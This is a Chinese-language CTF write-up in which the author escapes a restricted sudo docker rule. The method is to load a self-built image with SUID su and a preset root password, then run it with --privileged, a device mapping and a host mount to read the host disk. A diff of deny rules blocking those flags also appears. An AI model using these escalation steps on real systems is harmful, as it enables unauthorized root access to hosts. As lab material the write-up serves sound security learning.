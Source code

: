 在第二问的容器里也执行看看，可以大概知道第一问的预期解要用什么。

```diff
-/usr/bin/docker run --rm -u 1000\:1000 *
+/usr/bin/docker run --rm --security-opt\=no-new-privileges -u 1000\:1000 *
+!/usr/bin/docker * --privileged*
+!/usr/bin/docker * --device*
```

多禁用了 `--privileged` 和 `--device`，虽然文档很含糊但就用这俩吧。

题目只留了个 `docker load`，镜像需要自己上传。描述里说可以用 rz。

想起了 GeekGame-3rd 的
[Z 公司的服务器](https://github.com/PKU-GeekGame/geekgame-3rd/tree/master/official_writeup/prob05-zserver)
，在官方和
[选手](https://github.com/PKU-GeekGame/geekgame-3rd/tree/master/players_writeup/1104)
题解里找到了很多支持 ZMODEM 的软件。

按
[文章](https://gangmax.me/blog/2016/12/08/using-rz-slash-sz-to-transfer-files/)
所说在 GNU screen 里 `:zmodem catch`，再执行 `rz`，screen 有弹出 `sz`
命令，但执行后打印 `sz: skipped: somefile`。

以为是 screen 的问题，就去试了几个软件。最后 WindTerm 和 AbsoluteTelnet 连输 token
都完成不了，SecureCRT 的 raw mode 在 cd 到 /tmp 后能传文件，回到 screen 只要 cd
/tmp 也能传。

题目的 `docker run` 命令要求用 `-u 1000:1000`，那做一个含有 SUID root 程序的镜像。

```shell
docker run -it --name suid busybox:1.37.0-glibc
# chmod u+s /bin/sh
docker container commit suid
docker save 566c | gzip -c > 566c.tar.gz
```

上传之后导入镜像。

```shell
gzip -dck 566c.tar.gz | sudo docker image load
sudo docker run --rm -u 1000\:1000 -it --privileged --device /dev/vdb:/dev/vdc -v /:/host 566c
```

结果发现 busybox 的 /bin/sh 设置成 SUID 后还是原来的用户。改成用 `passwd` 设置
root 账号的密码，配合 SUID 的 /bin/su 提权。

```shell
# Both works.
cat /host/dev/vdb
cat /dev/vdc
# flag{dONT_1OAD_uNTRusT3D_1ma6e_3ec063eb8d_plz!}
```

第二问的命令加了 `--security-opt\=no-new-privileges`。Docker 的
[文档](https://docs.docker.com/reference/cli/docker/container/run/#security-opt)
链接到 Linux kernel 的
[文档](https://www.kernel.org/doc/Documentation/prctl/no_new_privs.txt)
，说是会让程序的 setuid bit 失效。果然 su 不能用了，提示 `su: must be suid to work
properly`。
